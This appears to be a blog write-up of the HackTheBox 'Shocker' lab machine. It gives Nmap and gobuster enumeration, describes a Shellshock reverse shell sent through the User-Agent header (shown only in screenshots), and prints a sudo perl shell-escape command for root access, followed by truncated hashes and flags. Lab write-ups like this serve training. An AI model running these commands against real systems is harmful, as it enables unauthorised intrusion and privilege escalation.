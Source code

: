 [HackTheBox] Shocker
===============
date: 13/Nov/2019
summary: This is the summary for an awesome post.
tags: oscp, hackthebox, writeups

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_shocker/infocard.png)

This is a writeup for HTB VM [Shocker](https://www.hackthebox.eu/home/machines/profile/108). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_shocker/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Nov 13 16:00:23 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/xml/_quick_tcp_nmap.xml 10.10.10.56
Increasing send delay for 10.10.10.56 from 0 to 5 due to 145 out of 482 dropped probes since last increase.
Nmap scan report for 10.10.10.56
Host is up, received user-set (0.11s latency).
Scanned at 2019-11-13 16:00:24 PST for 25s
Not shown: 998 closed ports
Reason: 998 resets
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 16:00:49 2019 -- 1 IP address (1 host up) scanned in 26.24 seconds
```

2\. We try Shellshock related enumeration steps to identify interesting scripts to be used as entrypoint:  
```
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403 -k -x sh,pl
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

![writeup.enumeration.steps.2.1](/static/files/posts_htb_shocker/screenshot01.png)  

![writeup.enumeration.steps.2.2](/static/files/posts_htb_shocker/screenshot02.png)  

3\. The `user.sh` script looks interesting and we manually confirm that it is vulnerable to Shellshock:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_shocker/screenshot03.png)  

![writeup.enumeration.steps.3.2](/static/files/posts_htb_shocker/screenshot04.png)  

### Findings
#### Open Ports:
```
80/tcp    |  http  |  Apache httpd 2.4.18 ((Ubuntu))
2222/tcp  |  ssh   |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
#### Files
```
http://10.10.10.56/cgi-bin/user.sh
```

## Phase #2: Exploitation
1\. We inject a Bash reverse shell command within the HTTP User-Agent header and get interactive access on the target system:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_shocker/screenshot05.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_shocker/screenshot06.png)  

2\. We can now view the contents of the first flag file, `user.txt`:  

![writeup.exploitation.steps.2.1](/static/files/posts_htb_shocker/screenshot07.png)  

## Phase #2.5: Post Exploitation
```
shelly@Shocker> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker>  
shelly@Shocker> uname
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
shelly@Shocker>  
shelly@Shocker> ifconfig
ens33 Link encap:Ethernet  HWaddr 00:50:56:b9:fe:2c
      inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
      inet6 addr: fe80::250:56ff:feb9:fe2c/64 Scope:Link
      inet6 addr: dead:beef::250:56ff:feb9:fe2c/64 Scope:Global
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:769099 errors:0 dropped:0 overruns:0 frame:0
      TX packets:542509 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:65025189 (65.0 MB)  TX bytes:92873202 (92.8 MB)
shelly@Shocker>  
shelly@Shocker> users
root
shelly
```

## Phase #3: Privilege Escalation
1\. From the output of the `sudo -l`, we know that the user `shelly` can execute `perl` with `sudo` privileges. We use this to execute Bash and get elevated privileges:  
```
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_shocker/screenshot08.png)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_shocker/screenshot09.png)  

2\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_shocker/screenshot10.png)  

## Loot
### Hashes
```
root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQd........................
shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba........................
```
### Flags
```
/home/shelly/user.txt: 2ec24e11320026d1e70ff...........
/root/root.txt: 52c2715605d70c76190305..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/108>  
* <https://www.youtube.com/watch?v=IBlTdguhgfY>  
* <https://xd3m0n.xyz/htb_shocker/>  
